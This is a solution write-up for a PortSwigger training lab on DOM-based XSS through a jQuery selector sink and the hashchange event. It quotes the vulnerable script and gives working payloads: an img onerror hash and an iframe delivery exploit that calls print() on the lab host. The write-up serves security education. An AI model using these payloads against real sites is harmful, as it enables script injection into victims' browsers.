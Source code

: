 # DOM XSS in jQuery selector sink using a hashchange event

## This lab contains a [DOM-based cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/dom-based) vulnerability on the home page. It uses jQuery's `$()` selector function to auto-scroll to a given post, whose title is passed via the `location.hash` property.

## To solve the lab, deliver an exploit to the victim that calls the `print()` function in their browser.

### step1

open lab
view page source

look for jquery code

```javascript
<script>

$(window).on('hashchange', function(){

var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');

if (post) post.get(0).scrollIntoView();

});

</script>
```

![screenshot](./images/lab6_hash_value.png)

![screenshot](./images/lab6_hash_with_post_name.png)

test with
`#<img src=1 onerror=alert(1)>`

![screenshot](./images/lab6_hash_with_image_pageload.png)

### step2

to solve this lab
you need to use iframe

```javascript
<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">
```

change src url with lab url and change alert(1) with print()

```javascript
<iframe src="https://0a1000e504e13d8fc22843dd00560027.web-security-academy.net/#" onload="this.src+='<img src=1 onerror=print()>'">
```

put inside exploit page and submit

![screenshot](./images/lab6_exploit_payload.png)
